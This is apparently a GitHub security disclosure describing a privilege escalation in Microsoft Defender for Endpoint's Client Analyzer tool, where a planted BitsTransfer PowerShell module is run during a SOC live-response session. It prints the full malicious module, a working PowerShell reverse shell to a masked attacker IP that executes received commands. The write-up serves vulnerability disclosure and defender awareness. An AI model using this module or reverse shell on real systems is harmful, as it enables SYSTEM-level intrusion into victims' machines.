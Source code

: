 # Summary

If you are using Microsoft Defender for Endpoint for your SOC operation, be cautious when collecting suppport logs with "Microsoft Defender for Endpoint Client Analyzer" tool via live a response session. If an endpoint has been compromised to an extend and the attacker has permissions to write to specific paths, he can conduct a PowerShell Module Implant atack. Below is a description of a conditional privilege escalation attack using the Powershell Module Implant technique. Microsoft doesn't recognize this as an vulnerability since by default the paths listed in "Preconditions for the Attack" are not writable by a none admin user. Fair point and understandable. But nevertheless this  information should be available to the public. 
    
# Description

When contacting support, Microsoft may ask for the output package of the "Microsoft Defender for  Endpoint Client Analyzer" tool. This guidance is available in the article "Collect support logs in Microsoft Defender for Endpoint using live response" (https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/troubleshoot-collect-support-log?view=o365-worldwide). I discovered that the "Microsoft Defender for Endpoint Client Analyzer" tool does not check the integrity of PowerShell modules and allows an attacker to gain "nt authority\system" privileges on the victim machine.

## Preconditions for the Attack
    
* The user has permissions to write into one of the following directories on the victim machine:
   * .\WindowsPowerShell\Modules
   * C:\Program Files\WindowsPowerShell\Modules
   * C:\Windows\system32\WindowsPowerShell\v1.0\Modules   
   * C:\Program Files\Microsoft Monitoring Agent\Agent\PowerShell

* A SOC analyst establishes a Live response session to the victim in Microsoft 365 Security Center and runs the "Microsoft  Defender for Endpoint Client Analyzer" tool
    
## Steps to Reproduce
 
The "Microsoft Defender for Endpoint Client Analyzer" tool is available at the following URL https://aka.ms/MDELiveAnalyzer (a compressed MDELiveAnalyzer.ps1 script). The script when uploaded can be run in the Live response command console from  Microsoft 365 Security Center as "run MDELiveAnalyzer.ps1". As seen below, the script drops **MDEClientAnalyzer.ps1** with some additional tools. 

![alt text](https://github.com/rashimo/secaware/blob/main/MDE_Conditional_Privesc/figure1.JPG?raw=true)

The script MDEClientAnalyzer.ps1, dropped by MDELiveAnalyzer.ps1, is carefully designed and checks the integrity of executables via the **Check-Command-verified** function which calls the **CheckAuthenticodeSignature** function to check the signature of executables. Part of the function is visible below. 

![alt text](https://github.com/rashimo/secaware/blob/main/MDE_Conditional_Privesc/figure2.JPG?raw=true)
   
In the privilege escalation attack we are trying to plant a malicious **BitsTransfer** module in one of the default paths of PowerShell modules. The PSModulePath environment variable stores the paths to the locations of the modules that are installed on disk. PowerShell uses this variable to locate modules when the user does not specify the full path to a module. In the Live response session, the PSModulePath environment variable contains the following paths:

* WindowsPowerShell\Modules
* C:\Program Files\WindowsPowerShell\Modules
* C:\Windows\system32\WindowsPowerShell\v1.0\Modules
* C:\Program Files\Microsoft Monitoring Agent\Agent\PowerShell\

The privilege escalation attack assumes that some of the paths are writable for the current user. The first one (WindowsPowerShell\Modules) is unlikely since the Live response sessions runs in the path "C:\ProgramData\Microsoft\Windows Defender Advanced Threat Protection\" which requires "NT Authority\System" privileges to access or modify the content. The second and third are more likely. In the simulation we are using the second path (C:\Program Files\WindowsPowerShell\Modules). 

We create a new module at:

`C:\Program Files\WindowsPowerShell\Modules\BitsTransfer\BitsTransfer.psm1`

The content of the module is visible below.

```
function Start-BitsTransfer
{
 Param
 (
 [Parameter(Mandatory=$false)]
 [string] $Source,
 [Parameter(Mandatory=$false)]
 [string] $Destination,
[Parameter(Mandatory=$false)]
 [string] $TransferType,
[Parameter(Mandatory=$false)]
[switch] $Asynchronous,
[Parameter(Mandatory=$false)]
 [string] $Description,
[Parameter(Mandatory=$false)]
 [string] $RetryTimeout,
[Parameter(Mandatory=$false)]
 [string] $RetryInterval
 )
Write-Host $env:PSModulePath
$client = New-Object System.Net.Sockets.TCPClient("XXX.XXX.XXX.XXX",443);$stream = 
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -
ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = 
(iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = 
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Fl
ush()};$client.Close()
}
```

The module contains the necessary arguments since from MDEClientAnalyzer.ps1 the **Start-BitsTransfer** function is called twice like:

```
Start-BitsTransfer -source $webfile -Destination "$DlZipFile" -Description "Downloading 
additional files" -RetryTimeout 60 -RetryInterval 60 -ErrorAction SilentlyContinue

Start-BitsTransfer -Source $WPTURL -Destination "$DlZipFile" -TransferType Download -
Asynchronous
```
The other part of the malicious module prints the environment variable PSModulePath and establishes a reverse connection to XXX.XXX.XXX.XXX on port 443. 

The attacker that planted the malicious module in "C:\Program Files\WindowsPowerShell\Modules\BitsTransfer\BitsTransfer.psm1" is now waiting for the live response sessions and the collection of the output package of the "Microsoft Defender for Endpoint Client Analyzer" tool.

Once a SOC analyst establishes a live response session, uploads the MDELiveAnalyzer.ps1 scripts and runs it, the attacker gets a reverse shell to the victim as "NT Authority\System". In the first figure below we can see the SOC analyst running MDELiveAnalyzer.ps1 and the output of the malicious **BitsTransfer** module. In the second figure below we can see an established reverse shell to the attacker machine. It is also visible that the reverse shell runs whit privileges of "nt authority\system". This concludes our privilege escalation attack.

![alt text](https://github.com/rashimo/secaware/blob/main/MDE_Conditional_Privesc/figure3.JPG?raw=true)

![alt text](https://github.com/rashimo/secaware/blob/main/MDE_Conditional_Privesc/figure4.JPG?raw=true)
